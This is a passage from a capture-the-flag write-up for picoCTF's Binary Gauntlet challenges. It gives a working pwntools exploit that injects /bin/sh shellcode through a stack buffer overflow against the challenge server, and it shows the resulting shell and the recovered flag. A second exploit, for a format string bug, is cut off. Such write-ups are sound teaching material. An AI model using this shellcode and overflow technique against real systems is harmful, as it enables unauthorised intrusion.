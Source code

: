 The program first prints the address of `dest`. Then it reads our command and
`printf`s it, but we don't need to exploit the format string.  As we can see, a
buffer of length of up to 1000 is copied to a buffer on the stack of length 104.
There isn't a magic give-me-the-flag-function, so let's shellcode it,
thankfully, NX is disabled.

A simple exploit to get the shell:
```py
from pwn import *

context.binary = "./gauntlet"

shellcode = b"""\
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\
\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\
\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05\
"""

r = remote('mercury.picoctf.net', 19968)
addr_stack = int(r.recvlineS(), 16)
r.sendline()
r.send(
    shellcode +
    b'a' * (104 - len(shellcode) + 8 + 8) +
    p64(addr_stack)
)
r.interactive()
```

```
 $ python exploit.py
...
[+] Opening connection to mercury.picoctf.net on port 19968: Done
[*] Switching to interactive mode
 $ cat /etc/hostname
challenge-server-mercury
 $ find / | grep 'flag'
./flag.txt
 $ cat ./flag.txt
7504344981b9288c5669150ada84894e
```

## Binary Gauntlet 2
In this challenge we have to exploit a format string vulnerability. When
running the binary we can enter a string that would be echoed to us. However, it
is passed as a format argument to printf, so, coupled with NX disabled, this
means we can get the address of the buffer we are going to read to next, place
shellcode and jump to it.

Let's write the exploit:
```py
from pwn import *
import sys

context.binary = "./gauntlet"

shellcode = b"""\
\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\
\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\
\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05\
"""

if 'local' in sys.argv:
    r = process("./gauntlet")
    input("Attach!")
```